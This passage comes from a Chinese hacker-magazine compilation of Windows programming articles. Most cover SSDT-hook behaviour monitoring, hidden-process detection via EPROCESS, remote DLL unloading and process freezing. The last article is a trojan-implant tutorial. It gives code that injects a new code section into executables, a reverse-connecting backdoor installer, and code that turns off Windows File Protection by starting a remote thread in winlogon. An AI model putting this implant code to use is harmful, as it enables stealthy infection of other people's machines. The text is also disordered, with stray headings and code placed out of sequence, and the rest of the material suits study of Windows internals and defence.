driver->MajorFunction[IRP_MJ_CLOSE]=DrvCreateClose;
driver->DriverUnload=DrvUnload; // 卸载函数
```

有了“\\DosDevices\\BEHAVIORMON”这个设备符号链接后，我们就可以在前台使用 CreateFile 函数来访问我们的虚拟设备“\\Device\\BehaviorMon”了。下面是前台访问该设备，并通过 DeviceIoControl 函数控制驱动来 hook Native API 函数的代码。

```cpp
// 让驱动 hook SSDT 中指定的 Native API
void CBehaviorMonView::hook()
{
    int i;
    hook_num=0;
    hook_API_info[hook_num++].nativeAPIname="NtRestoreKey";
    hook_API_info[hook_num++].nativeAPIname="NtOpenKey";
    hook_API_info[hook_num++].nativeAPIname="NtCreateKey";
    hook_API_info[hook_num++].nativeAPIname="NtQueryValueKey";
    hook_API_info[hook_num++].nativeAPIname="NtQueryKey";
    hook_API_info[hook_num++].nativeAPIname="NtDeleteKey";
    hook_API_info[hook_num++].nativeAPIname="NtDeleteValueKey";
    hook_API_info[hook_num++].nativeAPIname="NtSetValueKey";
    hook_API_info[hook_num++].nativeAPIname="NtEnumerateKey";
    hook_API_info[hook_num++].nativeAPIname="NtEnumerateValueKey";
    hook_API_info[hook_num++].nativeAPIname="NtOpenFile";
    hook_API_info[hook_num++].nativeAPIname="NtWriteFile";
    hook_API_info[hook_num++].nativeAPIname="NtCreateFile";
    hook_API_info[hook_num++].nativeAPIname="NtCreateProcess";
    hook_API_info[hook_num++].nativeAPIname="NtCreateProcessEx";
    hook_API_info[hook_num++].nativeAPIname="NtCreateSection";
    hook_API_info[hook_num++].nativeAPIname="NtOpenThread";
    hook_API_info[hook_num++].nativeAPIname="NtCreateThread";
    hook_API_info[hook_num++].nativeAPIname="NtOpenProcess";
    hook_API_info[hook_num++].nativeAPIname="NtOpenSection";
    hook_API_info[hook_num++].nativeAPIname="NtCreateSymbolicLinkObject";
    hook_API_info[hook_num++].nativeAPIname="NtSetSystemTime";

    DWORD controlbuff[2048];
    DWORD dw; // 打开设备
    if(!device)
        device=CreateFile("\\\\.\\BEHAVIORMON",GENERIC_READ|GENERIC_WRITE,0,0,OPEN_EXISTING,FILE_ATTRIBUTE_SYSTEM,0);

    if(!DeviceIoControl(device,IOCTL_BEHAVIORMON_ZEROSTATS,NULL,0,NULL,0,&dw,NULL))
        {return;}

    char * pcontrolbuff=(char *)controlbuff;
    int offsetcontrolbuff=0;
    // 填写交换缓冲区的地址
    controlbuff[0]=(DWORD)&log_behavior[0];
    offsetcontrolbuff+=4;
    // 填写 LOG_BEHAVIOR 数组的大小
    controlbuff[1]=LOG_BEHAVIOR_NUM;
    offsetcontrolbuff+=4;
    // 被 Hook 的 Native API 的总个数
    controlbuff[2]=hook_num;
    offsetcontrolbuff+=4;

    for(i=0;i<hook_num;i++)
    {
        DWORD * addr=(DWORD *)(1+(DWORD)GetProcAddress(GetModuleHandle("ntdll.dll"),hook_API_info[i].nativeAPIname));
        strcpy(pcontrolbuff+offsetcontrolbuff,hook_API_info[i].nativeAPIname);
        offsetcontrolbuff+=strlen(hook_API_info[i].nativeAPIname);
        offsetcontrolbuff++;
        memcpy(pcontrolbuff+offsetcontrolbuff,&addr[0],4);
        offsetcontrolbuff+=4;
    }

    DeviceIoControl(device,IOCTL_BEHAVIORMON_HOOK,controlbuff,2048,controlbuff,2048,&dw,0);
    Capture=TRUE;
}
```

注意上面向驱动输入的是 Native API 函数在 SSDT 表中的服务序号，即 Service Index。关于上面为什么要“+1”，大家可以到网上搜索看看关于 SSDT hook 的相关文章。进入驱动的派遣例程函数后，对控制号 IOCTL_BEHAVIORMON_HOOK 进行处理，实现 hook 的具体代码如下。

```cpp
case IOCTL_BEHAVIORMON_HOOK://hook Native API function

offsetbuff=0; // 获得要 Hook 的 Native API 函数的个数
numHookAPI=(DWORD)buff[8];
offsetbuff+=12; // hook
for(i=0;i<(int)numHookAPI;i++)
{
    // 获得要 Hook 的 Native API 函数的 name
    strcpy(nativeAPIname,buff+offsetbuff);
    offsetbuff+=strlen(nativeAPIname);
    offsetbuff+=1;
    // 获得要 Hook 的 Native API 函数的 Index
    memmove(&index,buff+offsetbuff,4);
    offsetbuff+=4;
    ...
    hook_API_info[i].Index=Index;
    hook_API_info[i].RealCallee=RealCallee;
    hook_API_info[i].hooked=TRUE;
}
break;
```

hook 了 Native API 函数后，剩下的就是前台和后台驱动程序的通信，来获取拦截到的程序行为数据，然后在前台界面中的列表控件中显示出来。这部分前台应用程序和后台驱动程序通信的内容已经在我写的《深入分析 RegMon 的编程实现》一文中有详细介绍，这里不再赘述。

#### 关键问题与解决方法

以上讲解了如何一步步安装驱动到实现 SSDT hook，但要实现行为监视，光拦截到 Native API 函数的调用行为还不够，还应该分析调用时传入的参数，得到有效信息。例如我们拦截到了一个程序调用了 NtOpenKey，但不知道 Open 的是哪个 Key，那有什么用，必须知道 Open 的是哪个 Key 才算截获了一个注册表操作行为。不仅是注册表，还有文件、内存操作等等。在实现对 Native API 函数参数解析、得到有效信息的过程中，我遇到了如下的一些问题。

- 1) 在驱动中获得调用 Native API 函数的进程对应 PE 文件的完整路径

```cpp
PCWSTR GetCurrentProcessFileName()
{
    DWORD dwAddress=(DWORD)PsGetCurrentProcess();
    if(KeGetCurrentIrql()!=PASSIVE_LEVEL) return NULL;
    if(dwAddress==0 || dwAddress==0xFFFFFFFF) return NULL;
    dwAddress += 0x130;
    if((dwAddress=*(DWORD*)dwAddress)==0) return 0;
    dwAddress += 0x10;
    if((dwAddress=*(DWORD*)dwAddress)==0) return 0;
    dwAddress += 0x3c;
    if((dwAddress=*(DWORD*)dwAddress)==0) return 0;
    KdPrint(("Current Process Full Path Name: %ws\n",(PCWSTR)dwAddress));
    return (PCWSTR)dwAddress;
}
```

上面这个函数想必大家都不陌生，利用它在 Windows XP/2000 的驱动中可以得到当前进程的全路径。然而我在测试的时候发现，有些情况会出错，导致虚拟机直接蓝屏。上面加粗的代码，是最终得到 ImageFile 这个 Unicode 字符串地址的代码。在这之前的一步，dwAddress 一般情况下就是 0x20000，而执行完加粗代码后，dwAddress 大概就是 0x2yyyy 的样子，反正比 0x20000 要大。然而有些时候，执行完加粗代码后，得到的好像不是 0x2yyyy，而是 0xyyyy，这样就没有得到 ImageFile 的地址，而是 0x20000 的偏移量。虽然我没有想清楚为什么 Windows 会这样搞，但这里可以对上面的函数做点修改，暂时得到正确的函数体来得到正确的 ImageFile 地址。我修改的函数如下。

```cpp
PCWSTR GetCurrentProcessFileName()
{
    DWORD dwAddress=(DWORD)PsGetCurrentProcess();
    DWORD dwAddress1;
    if(KeGetCurrentIrql()!=PASSIVE_LEVEL)
        return NULL;
    ...
    if(dwAddress == 0 || dwAddress == 0xFFFFFFFF)
        return NULL;
    dwAddress += 0x1B0;
    if((dwAddress=*(DWORD*)dwAddress)==0) return 0;
    dwAddress += 0x10;
    if((dwAddress=*(DWORD*)dwAddress)==0) return 0;
    dwAddress1=dwAddress; // 20000
    dwAddress += 0x3C;
    if((dwAddress=*(DWORD*)dwAddress)==0) return 0;
    if(dwAddress<dwAddress1)
        dwAddress=dwAddress+dwAddress1;
    KdPrint(("Current Process Full Path Name: %ws\n", (PCWSTR)dwAddress));
    return (PCWSTR)dwAddress;
}
```

经过我的修改后，无论在虚拟机中还是真实系统中，再也没有出现过蓝屏。这样修改也是比较保险的，至少不会在驱动中发生内存访问错误，否则就惨了！

- 2) 从 FileHandle 到文件完整路径的方法

在 NtWriteFile、NtRestoreKey 等函数中，经常需要通过文件句柄 FileHandle 来获得该文件的完整路径。我把我的几种方法整理如下。由于篇幅原因，函数内部实现请参见本文的程序源码（驱动部分）。

```cpp
VOID GetFileFullNamebyFileHandle(
    HANDLE filehandle,
    char *filefullname_c);

VOID GetFileFullNamebyFileHandle_QueryNameString(
    HANDLE filehandle,
    char *filefullname_c);

VOID GetFileFullNamebyFileHandle_forSection(
    HANDLE FileHandle,
    char *filefullname_c);
```

#### 总结

希望通过本文及源码能对大家有所帮助。事实上，驱动程序涉及的内容相当丰富，深入到了操作系统底层的每个角落。通过学习驱动程序编写，实践动手自己写这样一个 BehaviorMon，能够真切地感受到自己的知之甚少，总是感到还有很多很多需要学习、需要研究，时间总是那么少，而问题总是那么多！

这个程序行为监视器 1.0 版还需要继续完善，继续改进，继续丰富，欢迎有共同爱好的朋友登录黑客防线论坛，与我一起探讨学习。

[本文涉及的代码（程序），请见随书光盘]

## 线性代数

## 基于EPROCESS结构中双向链表的进程隐藏

文/魏欢林 计算机字符信息安全专业 班级徐州

本文介绍 Windows 下进程的 EPROCESS 结构，并针对该结构中的两个双向链表，给出一种检测隐藏进程的方法。

### EPROCESS结构中的双向链表

对于 Windows 下的每一个进程，系统都会给它分配一个 Executive Process（EPROCESS）Block。该结构包含和指向一系列其他相关的数据结构，比如每个进程的所有线程信息。EPROCESS 及其所有相关数据结构都位于系统空间。只有 Process Environment Block（PEB）是位于进程地址空间，因为它包含由用户模式代码所决定的信息。如图 1 所示。

```
+0x088 ActiveProcessLinks : _LIST_ENTRY
+0x090 QuotaUsage         : [3] Uint4B
+0x09c QuotaPeak          : [3] Uint4B
+0x0a8 CommitCharge       : Uint4B
+0x0ac PeakVirtualSize    : Uint4B
+0x0b0 VirtualSize        : Uint4B
+0x0b4 SessionProcessLinks: _LIST_ENTRY
+0x0bc DebugPort          : Ptr32 Void
+0x0c0 ExceptionPort      : Ptr32 Void
+0x0c4 ObjectTable        : Ptr32 _HANDLE_TABLE
+0x0c8 Token              : _EX_FAST_REF
.....
```

在这个结构中有我们关心的两个数据：一个是偏移 0x088 处的 ActiveProcessLinks，另一个是偏移 0x0c4 处的 ObjectTable。

图1

在 Windbg 下，我们可以通过 dt 命令获取 EPROCESS 的具体格式。

```
lkd> dt _EPROCESS
nt!_EPROCESS
  +0x000 Pcb             : _KPROCESS
  +0x06c ProcessLock     : _EX_PUSH_LOCK
  +0x070 CreateTime      : _LARGE_INTEGER
  +0x078 ExitTime        : _LARGE_INTEGER
  +0x080 RundownProtect  : _EX_RUNDOWN_REF
  +0x084 UniqueProcessId : Ptr32 Void
```

顾名思义，ActiveProcessLinks 是活动进程链表，从图 1 中我们可以看出，它的作用就是把一个个的 EPROCESS 结构链接在一起。它是一个 _LIST_ENTRY 的结构类型：

```
lkd> dt _LIST_ENTRY
nt!_LIST_ENTRY
  +0x000 Flink : Ptr32 _LIST_ENTRY
  +0x004 Blink : Ptr32 _LIST_ENTRY
```

Flink 是指向当前节点之后的指针，Blink 是指向当前节点之前的指针，_LIST_ENTRY 是一个双向链表。活动进程可以通过这个链表来遍历，如图 2 所示。

与 ActiveProcessLinks 不同的是，ObjectTable 并不是一个双向链表，它指向的是进程的句柄表，而系统内所有这些句柄表结构都是通过 _LIST_ENTRY 类型的双向链表链接起来的，类似于 ActiveProcessLinks 将进程链接起来的方式。ObjectTable 是一个 _HANDLE_TABLE 结构，具体如下。

```
lkd> dt _HANDLE_TABLE
nt!_HANDLE_TABLE
```

| 偏移 | 字段 | 类型 |
|---|---|---|
| +0x000 | TableCode | Uint4B |
| +0x004 | QuotaProcess | Ptr32 _EPROCESS |
| +0x008 | UniqueProcessId | Ptr32 Void |
| +0x00c | HandleTableLock | [4] _EX_PUSH_LOCK |
| +0x01c | HandleTableList | _LIST_ENTRY |

到 EPROCESS 的偏移 0x088 处 ActiveProcessLinks 中读取当前进程之后的进程指针，通过该指针计算其 EPROCESS 地址。如此循环，即可获得所有活动进程的信息。

```c
plist_active_procs=(PLIST_ENTRY)(eproc+FLINKOFFSET);
eproc=(ULONG)plist_active_procs->Flink;
eproc=eproc-FLINKOFFSET;
current_PID=*((int *)(eproc+PIDOFFSET));
if(current_PID<0){
    // 读取到 System Process Idle 时，置零处理
    current_PID=0;
}
DbgPrint("process id:%4d,address:%8x\n",current_PID,eproc);
```

图2

偏移 0x01c 处就是一个类型为 _LIST_ENTRY 的 HandleTableList，即句柄表链。活动进程也可以通过这个链表遍历，如图 3 所示。

对于偏移 0x0c4 处的 ObjectTable，依然是先通过函数 PsGetCurrentProcess 获得任意进程的 EPROCESS 地址，进而计算得到 ObjectTable 的地址。记录当前 ObjectTable 地址作为循环终止判断条件。到 ObjectTable 中偏移 0x008 处获得进程 ID，偏移 0x004 处 QuotaProcess 读取 EPROCESS 地址。经过循环，即可获得所有进程的信息。

```c
do{
    pid=*(PULONG)((ULONG)HandleTableList+0x08-0x1c);
    if(pid!=4)
        addr=*(PULONG)((ULONG)HandleTableList+0x04-0x1c);
    else
        addr=0x0;
    DbgPrint("process id:%4d,address:%8x\n",pid,addr);
    if(pid!=4)
        addr=*(PULONG)((ULONG)HandleTableList+0x08-0x1c);
    HandleTableList=HandleTableList->Flink;
}while(start_list!=HandleTableList);
```

图3

需要注意的是，ObjectTable 结构体内偏移 0x008 处的 UniqueProcessId 就是当前 EPROCESS 对应进程的 ID 号。同时，ObjectTable 结构体内偏移 0x004 处有一个指针 QuotaProcess，指向了当前进程的 EPROCESS 结构（System 进程比较特殊，对应的指针为空），因而我们不仅能够得到进程的 ID 号，而且可以获得进程的其他信息。

### 编写进程检测的驱动程序

上面我们已经弄清楚 EPROCESS 结构中的双向链表，接下来看如何编写驱动程序。对于偏移 0x088 处的 ActiveProcessLinks，我们先通过函数 PsGetCurrentProcess 获得任意进程的 EPROCESS 地址，该结构偏移 0x084 处存放进程 ID 的指针，读取该指针处的 ID 作为循环的终止判断条件。

由于在 Windows XP 下 System 的 ObjectTable 偏移 0x004 处 QuotaProcess 为 null，是一个异常值，不可读，因而我将其直接置零。另外，通过这个方法无法读取 System Process Idle 的地址，运行时显示为 0。

#### 小结

Windows 系统中的 EPROCESS 结构是一个非常重要的结构，与系统进程、线程管理密切相关。本文为了便于说明，只给出了 Windows XP SP2 下的具体实现。在 Windows 2000 和 Windows 2003 下这个方法也是可行的，但我们需要在驱动中判断系统版本，然后给出不同的系统偏移量即可。同时，在 EPROCESS 结构中还存在着其他重要的进程特征，通过分析该结构可以找到其他进程检测的方法。

【本文涉及的代码（程序），请见随书光盘】

## 卸载远程进程中的DLL

文/图 裴云

病毒、蠕虫肆虐的时代真的很让人头痛，尤其是这些家伙隐藏在别的进程中的作弊行为，真让人受不了。病毒想跑到其他进程中待着，我们也管不了，那是人家病毒享有最基本的“权利”嘛！如果我们不愿意的话，可以让病毒马上滚出来。下面我们就自己动手制作一款可以请走病毒的工具吧，名字就叫做 UnloadDll（当然，我也不介意你给它起更 Cool 的名字）。

我们的 UnloadDll 要用 VC 制造，其本身并不重要，重要的是享受我们制造的过程。接下来我就简单描述一下制造过程，而后再享受我们的成果吧。

```cpp
// OpenProcessToken 得到受调整进程的访问令牌
::OpenProcessToken((void *)::GetCurrentProcessId(), TOKEN_ADJUST_PRIVILEGES, &hToken);

// LookupPrivilegeValue 取得指定特权的 LUID
::LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &uID);
tp.PrivilegeCount = 1;
tp.Privileges[0].Luid = uID;
tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

// AdjustTokenPrivileges 调整进程的权限
::AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(tp), NULL, NULL);

// CloseHandle 关闭 OpenProcessToken 打开的句柄
::CloseHandle(hToken);
```

DLL 是动态链接库，能提供很多的函数供其他程序调用。DLL 本身并不会创建进程，而是依附在其他进程中为其他进程服务。DLL 可以让程序自己将它加载到内存中，也可以让程序自己从内存中释放它。程序自己加载 DLL 时使用 LoadLibrary() 函数，卸载时可以使用 FreeLibrary() 函数，函数原型如下。

```cpp
HINSTANCE LoadLibrary(
  LPCTSTR lpLibFileName
  // address of filename of executable module
);

BOOL FreeLibrary(
  HMODULE hLibModule
  // handle to loaded library module
);
```

接下来，就是要查找我们要访问的进程，从而得到它的进程标识（PID）。要做到这一点就需要遍历所有的进程，从而找到该进程并得到它的 PID，具体代码如下。

```cpp
hProcessSnap = ::CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
// 遍历所有进程
if(::Process32First(hProcessSnap, &pe32))
{
  do
  {
    printf("PID=%d, FileName=%s\n", pe32.th32ProcessID, pe32.szExeFile);
  } while(::Process32Next(hProcessSnap, &pe32));
}
```

我们的程序要想卸载其他进程中的 DLL，应该使用 OpenProcess() 函数打开这个进程。但有时要对系统资源进行访问，调试进程必须拥有一定的权限。提升进程权限的步骤有 4 步，每个步骤都会在代码中提到，实现的代码比较少，具体如下。

```cpp
// 提升进程的权限
HANDLE hToken;
LUID uID;
TOKEN_PRIVILEGES tp;
```

当然，我们要做的是查找而不仅仅是遍历所有进程，因此在 do...while 中应该有一个判断，代码为 strcmp(pe32.szExeFile, argv[1])，这样就可以实现我们想要的了。

再接下来，要通过我们得到的 PID 找到要卸载的 DLL 文件。方法跟上面一样，也是用 do...while 遍历并查找，只是使用的 API 函数有所不同。看看代码吧。

```cpp
hModuleSnap = ::CreateToolhelp32Snapshot(TH32CS_SNAPMODULE, pe32.th32ProcessID);
```

```cpp
// 查找相关的DLL
if(::Module32First(hModuleSnap,&me32))
{
    do
    {
        if(!strcmp(me32.szExePath,argv[2]))
        {
            break;
        }
    }while(Module32Next(hModuleSnap,&me32));
}
```

找到我们要的模块后就到了最后一步了，也就是卸载我们想要卸载的 DLL 文件。方法是使用 FreeLibrary() 函数。但是怎么做才能使 FreeLibrary() 函数卸载掉其他进程的 DLL 文件呢？可以使用远程线程来调用 FreeLibrary() 函数，创建远程线程的函数是 CreateRemoteThread() 函数。它有一个关键参数，就是线程函数的地址。如果要创建一个线程，那么这个线程函数是如何定义的呢？看看下面线程函数定义的格式。

```cpp
DWORD WINAPI ThreadProc(
    LPVOID lpParameter   // thread data
);
```

感觉到什么了？对！那就是它与 FreeLibrary() 函数有一个共性，即只需要一个参数。那么，我们只要得到 FreeLibrary() 函数的地址，把要卸载的 DLL 文件名当作线程参数来传递就可以了。实现代码如下。

```cpp
HMODULE hModule=::GetModuleHandle("kernel32.dll");
LPTHREAD_START_ROUTINE pfnStartRoutine=
(LPTHREAD_START_ROUTINE)::GetProcAddress(hModule,"FreeLibrary");
hRemoteThread=::CreateRemoteThread(hProcess,NULL,0,pfnStartRoutine,me32.hModule,0,NULL);
::WaitForSingleObject(hRemoteThread,INFINITE);
```

至此，我们要完成的软件就这样被制造出来了。当然，软件本身不重要，重要的是它的制造过程。我们又可以学习到很多知识了。下面我就告诉大家怎样使用这款软件。打开一个记事本，其进程名为 notepad.exe，再打开 360 安全卫士，看看它加载了哪些 DLL。我们以它里面的 uxtheme.dll 为例来试验一下，如图 1 所示。卸载的方法是在 CMD 下使用命令“unloaddll notepad.exe C:\WINDOWS\system32\uxtheme.dll”来实现。注意，这里要区分大小写，可以通过修改比较处使用的函数来取消大小写。卸载成功后，记事本的进程会出错而关闭，在 360 安全卫士中也看不到 uxtheme.dll 这个 DLL 文件了，如图 2 所示。

虽然我们整个程序已经完成了，但还有一个问题，就是执行一次“unloaddll notepad.exe C:\WINDOWS\system32\uxtheme.dll”是无法卸载掉我们想要卸载的 DLL 文件的，至少需要运行 2 次，最多要 4 次。这个问题我觉得可以在执行完 CreateRemoteThread() 函数后用 goto 再去遍历所选进程的 DLL，直到找不到为止，只是这样的做法有点欠佳了。

通往罗马的大路不止一条。除了上述方法外，还可以有其他的方式。那就是自己写一个线程函数，定义一个结构作为线程函数的参数，把 FreeLibrary() 函数和要卸载的 DLL 文件作为参数传递到线程函数中。当然，这就要使用 VirtualAllocEx() 函数和 WriteProcessMemory() 函数了。步骤多了，而且也复杂了，具体的实现就留给大家去试试吧！不过这种方法我也试了，同样存在第一种方法那样的问题。如果有谁可以想到解决的办法，麻烦与我分享一下，谢谢了，各位黑 Fans。

> 【本文涉及的代码（程序），请见随书光盘】

## 进程的冻结与解冻

在调试进程或为进程打补丁（这个补丁通常是内存补丁，文件补丁的话这样做是没有意义的！）的时候，我们需要把进程的主线程挂起，以防止补丁程序在执行补丁代码的过程中被 Windows 打断。不过本文并不是要说如何去调试进程，或者是如何为进程打内存补丁，而是要探讨一下如何把一个进程的主线程挂起。

```cpp
{
    printf("[Find %s ok!]\n", pe32.szExeFile);
    Pid = pe32.th32ProcessID;
    // 这一步是保存目标进程的PID，方便我们后面的使用
    break;
}
b = ::Process32Next(hProcessSnap, &pe32);
}
::CloseHandle(hProcessSnap);
```

#### 冻结进程

挂起一个进程的主线程有两种方法。第一种方法是使用 CreateProcess 函数创建一个进程，在创建进程时，给 CreateProcess 函数传递一个 CREATE_SUSPENDED 参数，CREATE_SUSPENDED 会使新建进程的主线程一开始就处于挂起状态。这种方法虽然受限于调用 CreateProcess 函数的父进程，但却是比较方便的一种方法。第二种方法相对于第一种方法要复杂一些，但是它用起来比较灵活，也不再受限于父进程的创建。这种方法是先得到目标进程的 PID（PID 就是进程的 ID），然后遍历系统中所有的线程，并比较线程所属进程的 PID 是否与我们的目标进程的 PID 相等；相等的话就打开线程得到线程的句柄，并暂停这个线程，让其挂起。这一系列过程用语言描述确实不太容易，而且我的表达也不是很清楚，因此还是直接拿出源代码和大家一起来分析好了。

要得到目标进程的 PID，就要先遍历系统中所有的进程，实现代码如下。

这段代码很常见了，我就不做过多的解释了。实在不了解的朋友，就翻翻以前的《黑客防线》杂志或是查阅 MSDN 吧。找到目标进程的 PID 后，接下来就是遍历系统中所有的线程了。这与上面的结构差不多，只是在调用 CreateToolhelp32Snapshot 函数时，不再使用 TH32CS_SNAPPROCESS 参数，取而代之的是 TH32CS_SNAPTHREAD。换了这个参数就可以遍历系统中所有的线程了。遍历时，我们所使用的函数是 Thread32First 和 Thread32Next。在遍历系统中所有线程的时候，与遍历进程时是有所不同的，因为我们需要暂停目标进程的主线程。这两者不同之处的代码如下。

```cpp
HANDLE hProcessSnap = ::CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
BOOL b = ::Process32First(hProcessSnap, &pe32);
while (b)
{
    if (!strcmp(pe32.szExeFile, argv[1]))
    {
        // ...
    }
}
```

```cpp
if (th32.th32OwnerProcessID == Pid)
// 线程所属的PID是否等于我们的目标PID
{
    HANDLE oth = OpenThread(THREAD_ALL_ACCESS, FALSE, th32.th32ThreadID);  // 打开线程
    if (!(::SuspendThread(oth)))
    // SuspendThread 来暂停线程
    {
        printf("Onlock Thread id:%d\n", th32.th32ThreadID);
        printf("Onlock ThreadOwnerProcessID:%d\n", th32.th32OwnerProcessID);
        printf("Onlock ExeFileName %s\n", pe32.szExeFile);
    }
    CloseHandle(oth);
    break;
}
```

## 线程注入类

这段代码使用了 OpenThread 和 SuspendThread 两个函数。SuspendThread 函数的原型如下：

```cpp
DWORD SuspendThread(
    HANDLE hThread // handle to the thread
);
```

它只有一个参数，就是要暂停线程的句柄。而得到线程句柄的函数 OpenThread 是在 Windows 2000 以上的系统中才有的，所以在 VC++ 6.0 下本身是没有这个函数定义的，需要下载新的 SDK 来调用这个函数。下面先看看 OpenThread 函数各个参数的具体意义，其原型如下：

```cpp
HANDLE OpenThread(
    DWORD dwDesiredAccess,   // 打开线程的访问权限
    BOOL bInheritHandle,     // 返回句柄是否可被子进程继承
    DWORD dwThreadId         // 目标线程ID号
);
```

我们使用 OpenThread 函数就可以得到 SuspendThread 函数需要的参数了，也就可以完成我们要冻结进程的功能了。以上就是第二种暂停一个线程的实现方法。

另外，新的 SDK 的下载地址是 `http://www.microsoft.com/msdownload/platformsdk/sdkupdate/`。下载后需要添加到 VC++ 中，否则是没有办法使用的。添加方法是在 VC++ 的菜单中选择“Tools->Options->Directories”，如图1和图2所示。添加成功以后，一定要把新增路径放在最上面，因为搜索路径时有优先搜索功能。OpenThread 函数在 `windows.h` 中，如果先搜索到旧的 `windows.h`，就会提示没有定义 OpenThread 函数。


#### 解冻进程

上面介绍了冻结进程的方法，下面再来说说解冻进程的实现。这与刚才的方法是完全一样的，只是不再调用 SuspendThread 函数，而是使用 ResumeThread 函数来恢复刚才冻结进程的主线程。ResumeThread 函数的原型如下：

```cpp
DWORD ResumeThread(
    HANDLE hThread // identifies thread to restart
);
```

这个函数同样只有一个参数，与 SuspendThread 函数的参数相同，只要使用“::ResumeThread(oth)”替换上面的“::SuspendThread(oth)”就可以恢复被挂起进程的主线程了。

最后，我给大家抓个图来看看效果如何，如图3所示。看见了吧？效果确实不错！源代码我已随文提供，大家自己在 VC 下编译后试试效果吧。如果有什么疑问或者发现的问题，大家可以在黑客防线论坛互相讨论，共同进步。


> 【本文涉及的代码（程序），请见随书光盘】

### 植入执行文件：穿越软件防火墙

文／蔡宝军


现在的个人防火墙一般都 Hook 了 NDIS 协议驱动的 NDIS_PROTOCOL_BLOCK 链，并 Hook 了 TDI driver tcpip.sys 的几个 Device。天网应该是用了 IoAttachDevice，但 Hook dispatch 表会更简单一些。Hook TDI 主要是为了能够实现用户层的进程、IP 地址和端口的控制（因为协议层是不可中断的）。当然，这方面的任务并不一定需要在 TDI 中实现，费尔防火墙使用了 SPI 实现。从这一点上看天网更安全，技术更复杂一些。Hook TDI 非常麻烦，UnHook TDI 需要重新启动电脑，因为 Hook TDI SET_EVENT_HANDLE 是不可逆的。

如果防火墙只 Hook 了 TCPIP、TCPIP_WANARP 等几个特定的协议，我们可以编写一个 NDIS 协议驱动穿越它（比如 WinPcap）；然而 Hook 所有的协议驱动并不难，就是烦了一些。如果防火墙真的 Hook 了所有的协议或是 IM 类型的，那我们就只能 Hook NDIS.sys 的 API，把我们的驱动设置成在 miniport 驱动之前启动（BOOT 类型）了。

接下来要说的是不用驱动实现穿越防火墙的方法。网上搜索后，找到了一些木马样本，偏向 DLL 注入进程的方式。为了使木马更隐蔽，又不用修改注册表，我选择了植入的方法，并加上了反弹功能。说到植入就绕不开汇编（至少我是这样认为的），就像 CIH 那样。

### 植入程序的实现

- 1. 修改执行文件（.exe），加入一个 CODE 段；如果操作系统支持 SFC，则关闭它（这里由安装程序实现）。
- 2. 通过 ESP 获得 Kernel32.dll 的 base 地址，获取所需的 API 和 Library（ws2_32.dll）地址。
- 3. 调用 CreateThread，创建一个线程调用我们的 Socket 程序。
- 4. 主线程继续进行。

首先声明一下：汇编程序是一门艺术，可以写得很好看、很有效率。这里的实现比较随意，没有仔细优化，但在 WinDBG 下调试了很多次，也测试了很多经过植入的程序。如果有错误或效率不足之处请多包涵。

```asm
; 将 CreateProcessA 的返回地址 [esp] 存入 edi，调用 GetKnlBase 函数，返回后 edi 保存着 Kernel32 模块的基地址
_MainPROC NEAR
pushad
mov edi, [esp + 32] ; edi = return address
call GetKnlBase
mov [esp - 4], edi ; [esp - 36] = Kernel32 module base address
test eax, eax
popad
jz @End2 ; Failed

; GetKnlBase 函数
; edi = 搜索的起点地址
GetKnlBase PROC
push ebp
mov ebp, esp
; 获得重定位偏移量...
call @F
@@:
pop ebx
sub ebx, @B
……代码省略，详见杂志相关 asm.txt 文件……
```

```cpp
pNTHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BOUND_IMPORT].VirtualAddress;
Size = pNTHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BOUND_IMPORT].Size;
……代码省略，详见杂志相关 insert.txt 文件……
```

OK，终于完成植入代码了，没趴下吧？汇编代码是用 masm6.11 版本编译的（选择 tiny 模式）。休息一下，我们继续分析安装代码（安装植入代码进入执行文件）。

- 3）如果是 Windows 2000 或者更高版本的操作系统，如果植入的文件是属于系统保护的文件，我们需要关闭 WFP 功能。

### 安装代码的实现

- 1）安装代码是用 C 编写的，我先列出安装程序的使用说明。

```text
安装文件.exe [-ipcr] 植入文件.exe [Starting IP Address and ending IP Address]
[Port] [Connect time out seconds]
Example:
安装文件.exe [-ipcr] 植入文件.exe [0.0.0.0 255.255.255.255] [1234] [10]
Options:
-i 搜索的起始IP地址和结束IP地址
-p 远程控制端口号
-c 远程连接超时时间
-r 替换文件，不管文件是否正在运行（需要重新启动）
```

- 2）植入文件函数。

```cpp
BOOL EmbedFile()
{
  PIMAGE_DOS_HEADER pDosHeader;
  PIMAGE_NT_HEADERS pNTHeader;
  PIMAGE_SECTION_HEADER pNewSecHdr, pLastSecHdr;
  UINT SecNum, Idx;
  PBYTE pData;
  ULONG NewEntryPoint, OriEntryPoint, NewFileSize, NewSecRawOff;
  ...
  pDosHeader = (PIMAGE_DOS_HEADER)pFileData;
  if(pDosHeader->e_magic != IMAGE_DOS_SIGNATURE) return FALSE;
  pNTHeader = MakePtr(PIMAGE_NT_HEADERS, pDosHeader, pDosHeader->e_lfanew);
  if(pNTHeader->Signature != IMAGE_NT_SIGNATURE) return FALSE;
  ...
}
```

```cpp
// Load sfc 库
hSFCDll = LoadLibrary("sfc_os");
if(hSFCDll == NULL) hSFCDll = LoadLibrary("sfc");
if(hSFCDll != NULL){
  // 如果系统为 Windows2000/XP，调用 SfcIsFileProtected 函数
  SfcIsFileProtected = (PSFCISFILEPROTECTED)GetProcAddress(hSFCDll, "SfcIsFileProtected");
  if(SfcIsFileProtected != NULL){
    ...
    if(DisableWFP(hSFCDll)){
      ...
    }
  }
}
...
BOOL DisableWFP(HMODULE hSFCDll)
{
  DWORD Thdid, State;
  PROC SfcCloseEvents;
  HANDLE hWinLogonProcess = NULL, hThread = NULL;
  BOOL bResult;
  ...
  hThread = CreateRemoteThread(hWinLogonProcess, NULL, 0, (VOID*)SfcCloseEvents, NULL, 0, &Thdid);
}
```

```cpp
if(hThread == NULL){ goto END; }
State = WaitForSingleObject(hThread, 500);
switch (State) {
case WAIT_TIMEOUT:
    State = WaitForSingleObject(hThread, 2000);
    if(State != WAIT_OBJECT_0){ goto END; }
case WAIT_OBJECT_0:
    break;
case WAIT_FAILED:
    goto END;
default:
    goto END;
}
bResult = TRUE;
END:
if(hThread){ CloseHandle(hThread); }
if(hWinLogonProcess){ CloseHandle(hWinLogonProcess); }
return bResult;
}
```

